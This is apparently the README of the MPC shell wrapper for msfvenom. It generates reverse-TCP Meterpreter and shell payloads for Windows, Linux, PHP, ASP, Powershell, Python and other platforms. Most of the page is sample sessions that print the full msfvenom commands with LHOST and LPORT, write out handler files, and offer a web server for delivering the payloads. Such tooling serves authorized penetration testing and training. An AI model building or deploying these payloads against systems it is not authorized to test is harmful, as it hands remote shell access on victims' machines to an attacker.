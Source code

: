A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/pLmIlAm.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands** and a **quick web server** etc).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux 1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

``` bash
root@kali:~# mpc
 [*] Msfvenom Payload Creator (MPC v1.1)

 [i] ./mpc.sh <TYPE> (<DOMAIN/IP>) (<PORT>)
 [i] <TYPE>: (All reverse TCP payloads)
 [i]   + ASP (meterpreter)
 [i]   + ASPX (meterpreter)
 [i]   + Bash [.sh] (shell)
 [i]   + Java [.jsp] (shell)
 [i]   + Linux [.elf] (meterpreter)
 [i]   + OSX [.macho] (shell)
 [i]   + Perl [.pl] (shell)
 [i]   + PHP (meterpreter)
 [i]   + Powershell [.ps1] (meterpreter)
 [i]   + Python [.py] (meterpreter)
 [i]   + Tomcat [.war] (shell)
 [i]   + Windows [.exe] (meterpreter)
 [i] Missing <DOMAIN/IP> will default to IP menu
 [i] Missing <PORT> will default to 443
root@kali:~#
```

## Example \#1 (Windows Fully Automated With IP And Port)

```bash
root@kali:~# mpc windows 192.168.155.175 4444
 [*] Msfvenom Payload Creator (MPC v1.1)
 [i]   IP: 192.168.155.175
 [i] PORT: 4444
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe --platform windows -a x86 -e generic/none LHOST=192.168.155.175 LPORT=4444 -o /root/windows-meterpreter.exe
 [i] windows meterpreter created: '/root/windows-meterpreter.exe'
 [i] MSF handler file: '/root/windows-meterpreter-exe.rc'   (msfconsole -q -r /root/windows-meterpreter-exe.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#2 (Linux Fully Automated With Interface And Format)

```bash
root@kali:~# ./mpc.sh elf eth0
 [*] Msfvenom Payload Creator (MPC v1.1)
 [i]   IP: 127.0.0.1
 [i] PORT: 443
 [i] TYPE: linux (linux/x86/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=127.0.0.1 LPORT=443 -o /root/linux-meterpreter.elf
 [i] linux meterpreter created: '/root/linux-meterpreter.elf'
 [i] MSF handler file: '/root/linux-meterpreter-elf.rc'   (msfconsole -q -r /root/linux-meterpreter-elf.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#3 (PHP Using Interactive IP Menu)

```bash
root@kali:~# bash mpc.sh php
 [*] Msfvenom Payload Creator (MPC v1.1)

 [i] Use which interface/IP address?:
 [i]   1.) eth0 - 192.168.103.140
 [i]   2.) eth1 - 192.168.155.175
 [i]   3.) lo - 127.0.0.1
 [?] Select 1-3, interface or IP address: 1

 [i]   IP: 192.168.103.140
 [i] PORT: 443
 [i] TYPE: php (php/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p php/meterpreter/reverse_tcp -f raw --platform php -e generic/none -a php LHOST=192.168.103.140 LPORT=443 -o /root/php-meterpreter.php
 [i] php meterpreter created: '/root/php-meterpreter.php'
 [i] MSF handler file: '/root/php-meterpreter-php.rc'   (msfconsole -q -r /root/php-meterpreter-php.rc)
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

- - -

## To-Do List

* Cleaner command line arguments (e.g. `-ip 127.0.0.1`, `-v` etc)
* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Support different payloads (e.g. `standard shells`/`nc` & `reverse_http`/`reverse_https`, `bind` etc)
* x64 payloads
* _...IPv6 support?_
